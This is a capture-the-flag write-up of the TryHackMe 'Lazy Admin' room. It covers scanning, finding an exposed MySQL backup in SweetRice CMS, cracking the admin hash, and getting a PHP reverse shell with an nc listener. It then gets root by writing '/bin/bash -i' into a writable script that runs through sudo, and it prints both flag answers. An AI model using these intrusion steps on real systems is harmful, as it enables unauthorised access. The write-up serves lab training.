 ```yaml
---
layout: post
title: Lazy Admin
date: 2023-03-07 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Lazy Admin] is an easy CTF on TryHackMe that showcases scanning and enumeration, research, exploitation, and sudo privilege escalation.

![lazyadmin](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)



---

Let's start scaning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![Scan](/images/THM/lazyadmin/Captura.PNG)

If we go to the web we can see there is nothing interesting only the Apache2 service.

![web](/images/THM/lazyadmin/Captura2.PNG)

Time to do a directory scan.

```sh
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -q -t 40 -x html,txt,php
```

![web scan](/images/THM/lazyadmin/Captura3.PNG)

We found a directory called **content** that contains a **SweetRice CMS**.

![cms](/images/THM/lazyadmin/Captura4.PNG)

If we go to the **as** directory we can see the admin login.

![cms-login](/images/THM/lazyadmin/Captura5.PNG)

Searching a bit inner the directories in the folder **inc** we can found a **mysql_backup**.

![mysql](/images/THM/lazyadmin/mysql.PNG)

Inner It we can get the admin credentials, but the password is encrypted in md5.

![credentials](/images/THM/lazyadmin/mysql2.PNG)

This time I used [crackstation] for crack it instead other system tools.

![crack](/images/THM/lazyadmin/mysql3.PNG)

Once is cracked we can login.

Is time to get a shell!

![admin page](/images/THM/lazyadmin/Captura6.PNG)

Researching a little we can find an [exploit] in exploit-db.

In the exploit, explains that we can take advantage of ADS section.

![exploit](/images/THM/lazyadmin/Captura7.PNG)

We will use pentestmonkey php reverse shell, pointing to our IP and the port we configure our listener.

![ads admin](/images/THM/lazyadmin/Captura8.PNG)

```sh
nc -lvnp 4444
```

![listener](/images/THM/lazyadmin/Captura9.PNG)

If we go to the web-shell we've created and is well configured, we will receive the connection.

![conn](/images/THM/lazyadmin/Captura10.PNG)

Time to get an interactive shell!

```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![interactive shell](/images/THM/lazyadmin/Captura11.PNG)

Researching a little we can find the user flag in **/home/itguy**.

```sh
cat user.txt
```

![user flag](/images/THM/lazyadmin/Captura12.PNG)

- What is the user flag?
>Answer: THM{63e5bce9271952aad1113b6f1ac28a07}

Time to elevate our privileges.

If we list our allowed sudo commands for our user, we can see, that we can execute a perl script like root.

```sh
sudo -l
```

![sudo -l](/images/THM/lazyadmin/Captura13.PNG)

Let's see what contains **backup.pl**.

```sh
cat backup.pl
```

We can see that script execute a bash script called **copy.sh**. If we see the permissions of it, we can modify it, so let's take advantage of this and modify the file to get our root prompt.

![cat backup](/images/THM/lazyadmin/Captura14.PNG)

We can put a the bash command and the -i option to get our root interactive shell.

```sh
echo "/bin/bash -i" > /etc/copy.sh
cat /etc/copy.sh
```

![copy.sh modify](/images/THM/lazyadmin/Captura15.PNG)

Time to execute it! And if all we did is correctly we got a root shell.


```sh
sudo /usr/bin/perl /home/itguy/backup.pl
id
```

![sudo vuln](/images/THM/lazyadmin/Captura16.PNG)

Now we can go to the root directory, see the root flag and we've complete this machine.

```sh
cd /root
ls
cat root.txt
```

![root flag](/images/THM/lazyadmin/Captura17.PNG)

- What is the root flag?
>Answer: THM{6637f41d0177b6f37cb20d775124699f}



 [lazy admin]:https://tryhackme.com/room/lazyadmin
 [crackstation]:https://crackstation.net/
 [exploit]:https://www.exploit-db.com/exploits/40700
